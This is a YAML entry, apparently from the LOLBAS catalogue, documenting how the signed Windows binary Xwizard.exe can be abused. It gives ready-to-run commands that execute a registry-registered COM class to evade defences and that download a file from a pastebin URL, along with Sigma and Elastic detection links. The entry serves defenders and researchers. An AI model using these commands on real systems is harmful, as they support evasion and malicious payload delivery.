 ```yaml
---
Name: Xwizard.exe
Description: Execute custom class that has been added to the registry or download a file with Xwizard.exe
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: xwizard RunWizard {00000001-0000-0000-0000-0000FEEDACDC}
    Description: Xwizard.exe running a custom class that has been added to the registry.
    Usecase: Run a com object created in registry to evade defensive counter measures
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: xwizard RunWizard /taero /u {00000001-0000-0000-0000-0000FEEDACDC}
    Description: Xwizard.exe running a custom class that has been added to the registry. The /t and /u switch prevent an error message in later Windows 10 builds.
    Usecase: Run a com object created in registry to evade defensive counter measures
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: xwizard RunWizard {7940acf8-60ba-4213-a7c3-f3b400ee266d} /zhttps://pastebin.com/raw/iLxUT5gM
    Description: Xwizard.exe uses RemoteApp and Desktop Connections wizard to download a file, and save it to %LocalAppData%\Microsoft\Windows\INetCache\<8_RANDOM_ALNUM_CHARS>/<FILENAME>[1].<EXTENSION> or %LocalAppData%\Microsoft\Windows\INetCache\IE\<8_RANDOM_ALNUM_CHARS>/<FILENAME>[1].<EXTENSION>
    Usecase: Download file from Internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\xwizard.exe
  - Path: C:\Windows\SysWOW64\xwizard.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/process_creation/win_class_exec_xwizard.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/8909eefb90c799fb642f6d9d0d6ee6d855a6a654/rules/windows/process_creation/win_dll_sideload_xwizard.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/execution_com_object_xwizard.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_unusual_process_network_connection.toml
Resources:
  - Link: http://www.hexacorn.com/blog/2017/07/31/the-wizard-of-x-oppa-plugx-style/
  - Link: https://www.youtube.com/watch?v=LwDHX7DVHWU
  - Link: https://gist.github.com/NickTyrer/0598b60112eaafe6d07789f7964290d5
  - Link: https://bohops.com/2018/08/18/abusing-the-com-registry-structure-part-2-loading-techniques-for-evasion-and-persistence/
  - Link: https://twitter.com/notwhickey/status/1306023056847110144
Acknowledgement:
  - Person: Adam
    Handle: '@Hexacorn'
  - Person: Nick Tyrer
    Handle: '@NickTyrer'
  - Person: harr0ey
    Handle: '@harr0ey'
  - Person: Wade Hickey
    Handle: '@notwhickey'
---
```


